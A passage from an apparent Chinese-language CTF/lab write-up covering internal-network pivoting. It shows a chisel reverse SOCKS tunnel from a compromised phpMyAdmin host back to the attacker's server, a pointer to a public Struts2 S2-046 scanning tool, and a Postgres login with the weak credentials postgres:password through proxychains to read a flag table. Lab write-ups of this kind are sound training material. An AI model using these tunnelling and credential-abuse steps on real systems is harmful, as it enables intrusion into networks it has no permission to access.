需要注意，在二层内网中，代理主服务器的地址不能是 Kali 的地址，而应该是建立了端口转发的 phpMyAdmin 的地址

:::

然后在 `phpMyAdmin` 上建立代理隧道

```bash
da2bf9a19d9a:/tmp# ./chisel_1.9.1_linux_amd64 client 10.85.101.3:1331 R:0.0.0.0:10005:socks
<amd64 client 10.85.101.3:1331 R:0.0.0.0:10005:socks
2024/07/25 06:57:34 client: Connecting to ws://10.85.101.3:1331
2024/07/25 06:57:35 client: Connected (Latency 32.878827ms)
```

成功建立代理

```bash title="Kali"
2024/07/25 14:57:35 server: session#20: tun: proxy#R:10005=>socks: Listening
```

## Struts2 S2-046

通过 socks 访问服务



使用 [abc123info/Struts2VulsScanTools](https://github.com/abc123info/Struts2VulsScanTools) 直接利用


## flag - phpMyAdmin



## Postgres 弱密码

根据之前 `fscan` 的结果，已经得知 Postgres 服务的凭据为 `postgres:password`

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 pgcli -h 172.56.102.2 -u postgres
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
Password for postgres:
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
Server: PostgreSQL 16.3
Version: 4.1.0
Home: http://pgcli.com
postgres> \l
+-----------+----------+----------+------------+------------+-----------------------+
| Name      | Owner    | Encoding | Collate    | Ctype      | Access privileges     |
|-----------+----------+----------+------------+------------+-----------------------|
| flag      | postgres | UTF8     | en_US.utf8 | en_US.utf8 | <null>                |
| postgres  | postgres | UTF8     | en_US.utf8 | en_US.utf8 | <null>                |
| template0 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres           |
|           |          |          |            |            | postgres=CTc/postgres |
| template1 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres           |
|           |          |          |            |            | postgres=CTc/postgres |
+-----------+----------+----------+------------+------------+-----------------------+
SELECT 4
Time: 0.043s
```

## flag - Postgres

```bash
postgres> \c flag
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
You are now connected to database "flag" as user "postgres"
Time: 0.037s
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
postgres@172.56.102.2:flag> \dt
+--------+------+-------+----------+
| Schema | Name | Type  | Owner    |
|--------+------+-------+----------|
| public | flag | table | postgres |
+--------+------+-------+----------+
SELECT 1
Time: 0.036s
postgres@172.56.102.2:flag> SELECT * FROM flag
+-------------------------------------------------------------+
| data                                                        |
|-------------------------------------------------------------|
| WSS-Studio{Postgresql-cb6cba4a-6d7b-43b6-bfc4-0146b0d0e5af} |
+-------------------------------------------------------------+
SELECT 1
Time: 0.021s
```
